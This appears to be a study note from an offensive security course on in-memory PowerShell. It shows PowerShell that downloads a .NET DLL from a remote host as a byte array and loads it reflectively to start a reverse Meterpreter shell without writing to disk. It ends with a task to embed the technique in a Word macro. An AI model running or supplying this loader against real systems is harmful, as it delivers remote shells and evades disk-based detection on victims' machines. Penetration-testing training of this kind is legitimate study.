 ```powershell

  

$assem = [System.Reflection.Assembly]::LoadFile("C:\Users\dooley\ClassLibrary1.dll")

  

PS C:\Users\dooley> $class = $assem.GetType("ClassLibrary1.Class1")

$method = $class.GetMethod("runner")

$method.Invoke(0, $null)
```
- Executing this PowerShell results in a reverse Meterpreter shell, but it will download the assembly to disk before loading it. We can subvert this by instead using the _Load_[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-1) method, which accepts a _Byte_ array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the _DownloadData_[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-2) method of the _Net.WebClient_ class to download the DLL as a byte array.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.110/ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

## TO DO:
- Using what we have learned in these two modules, modify the C# and PowerShell code and use this technique from within a Word macro. Remember that Word runs as a 32-bit process.

